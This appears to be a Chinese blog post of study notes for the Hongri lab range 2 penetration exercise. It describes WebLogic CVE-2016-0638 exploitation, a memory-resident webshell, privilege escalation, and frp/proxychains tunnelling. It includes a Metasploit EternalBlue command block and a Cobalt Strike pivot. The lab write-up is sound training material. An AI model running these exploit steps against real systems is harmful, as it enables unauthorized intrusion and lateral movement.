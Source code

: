 ```yaml
---
title: 红日靶场二-学习笔记
date: 2023-06-24 21:11 +0800
categories: [SRC,渗透]
tags: [红日,渗透]
media_subpath: /
---
```






https://pan.baidu.com/s/1DtOdje33JeoF8kcU6LBqSw?pwd=g5r4

![](assets/WEBRESOURCEcac433cc9d9d4bddbcf1dc770267536b.png)

dc 区段1

pc 区段2 区段1

web nat 区段1



## 外网

![](assets/WEBRESOURCEab16919d3ad044c3b1f3377abe7eef3c.png)



ms17010 是打不通的

![](assets/WEBRESOURCE358953f4253349c9aeb086fd11ae2ffa.png)

有服务要手动起来，，，，

mssql 1qaz@WSX

登录启动 weblogic

![](assets/WEBRESOURCE652d91cd4b6e46b5978bed38fee1670d.png)

疑似存在漏洞

![](assets/WEBRESOURCEc2fb0a9031a2477683e9590c17f6ec10.png)

存在cve20160638

![](assets/WEBRESOURCEfd9e7167662b4f27a4a8032159c0a6ec.png)

直接注入内存马

![](assets/WEBRESOURCEebdb94b4e829406cbcca711a4b5ebead.png)



使用哥斯拉连接成功

![](assets/WEBRESOURCE051aabdc15dd4165ae22e8bc2ed8ed84.png)

我们现在是低权

![](assets/WEBRESOURCE313218577e034433909833ec526c0ea4.png)



靶机里面有360，但是cs直接生成的检测不出来。（搞了半天免杀还失败了【晕】

尝试提权，获取到了 system

![](assets/WEBRESOURCE0f0e9e2ca292428793df11667920f9b2.png)

ipconfig /displaydns

查看dns缓存

pc icmp探测是不行的，dns才能探测到

![](assets/WEBRESOURCE9da0abf566044da3af2aefe625131d6f.png)

上传运行 frp（过程略）

![](assets/WEBRESOURCEedae8e64595647ee9ef8ec1ceae7ede4.png)

端口扫描 可以用插件或者

proxychains nmap -A -F -sT -Pn 10.10.10.10

![](assets/WEBRESOURCE5ea6485890b04af0a0980b3880088993.png)



## 第二层上线cs

17010打进去用frp代理

```
set Proxies socks5:127.0.0.1:60000
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/bind_tcp
set rhost 10.10.10.10
set lport 4444
run
```

![](assets/WEBRESOURCE311e72c64e7c4f0b8236de96b98c24f2.png)

现在跳板机上面监听端口，



![](assets/WEBRESOURCEaa3c6064986d4247ad7066945431eff3.png)

配置一个端口就可以，

![](assets/WEBRESOURCE72138e1fb4dc41d59c92e88137d3d275.png)

生成shell，监听跳板机监听的端口，cs会自动转发流量

![](assets/WEBRESOURCEaa01799f717b4c398e19d2b535336349.png)

通过上面msf 获取的system，我们直接木马即可

![](assets/WEBRESOURCE6e22de1f752f4f358eeecba4a5bcbbb0.png)

cs 会同步 上线

![](assets/WEBRESOURCE173106f5c4e04729b918e98ae8aa75b4.png)



![](assets/WEBRESOURCEa64157a3097b4d56ba9a61bf44412260.png)

